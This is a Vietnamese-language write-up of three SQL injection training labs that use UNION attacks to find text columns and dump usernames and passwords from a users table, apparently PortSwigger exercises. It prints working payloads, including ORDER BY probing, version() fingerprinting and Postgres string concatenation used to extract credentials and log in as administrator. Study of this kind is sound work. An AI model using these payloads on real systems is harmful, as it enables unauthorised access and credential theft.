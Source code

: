 ## Lab 8: SQL injection UNION attack, finding a column containing text
Description: Xác định cột nào sử dụng datatype là string bằng UNION attack, và khiến databasse hiện string 'sbYahD' để pass bài lab
Bài này thì sau khi thực hiện các bước như bài trên, chỉ cần thay 1 string vào từng chữ NULL để check xem cột nào dùng string thôi.
```
' OR 1=1--
' ORDER BY 3--
' UNION SELECT NULL,'sbYahD',NULL-- 
```

![image](https://hackmd.io/_uploads/BJO6Qol3T.png)

## Lab 9: SQL injection UNION attack, retrieving data from other tables
Description: Trong description của bài đã nêu rõ có 1 bảng khác là `users` chứa 2 cột `username` và `password`. Sử dụng UNION attack để lấy được tất cả `username` và `password` rồi đăng nhập làm admin để pass bài lab.
```
' OR 1=1--
' ORDER BY 2--
' UNION SELECT NULL,NULL-- 
' UNION SELECT 'a','a'-- 
' UNION SELECT username,password FROM users-- 
```
![image](https://hackmd.io/_uploads/H1wfriehp.png)
Login làm admin và pass bài lab
![image](https://hackmd.io/_uploads/HkIBrsena.png)

## Lab 10: SQL injection UNION attack, retrieving multiple values in a single column
Description: Trong description của bài đã nêu rõ có 1 bảng khác là `users` chứa 2 cột `username` và `password`. Sử dụng UNION attack để lấy được tất cả `username` và `password` rồi đăng nhập làm admin để pass bài lab.

```
' OR 1=1--
' ORDER BY 2--
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,'a'-- (Chỉ có cột thứ 2 là string)
```
Bài này nếu đơn giản thì chỉ cần payload bên dưới để lấy password của administrator do đề bài đã cho tên bảng với các cột
`' UNION SELECT NULL,password FROM users WHERE username='administrator'--`
Nhưng bài lab này muốn hướng đến việc sử dụng concat string để list tất cả dữ liệu trong bảng chỉ với 1 cột duy nhất (Tên bài lab).
Check database sử dụng loại nào với phiên bản
`' UNION SELECT NULL,version()--`
Mình thấy database dùng loại Postgres
![image](https://hackmd.io/_uploads/rJsc81Zha.png)
Search keywork **postgre select with concat string mark**, mình được 
![image](https://hackmd.io/_uploads/BJApLJZhp.png)
Cho nên payload sẽ là `' UNION SELECT NULL,username || ':' || password FROM users--`
Dấu `:` để ngăn cách username với password. Nhập username và password của administrator ta sẽ pass bài lab này.

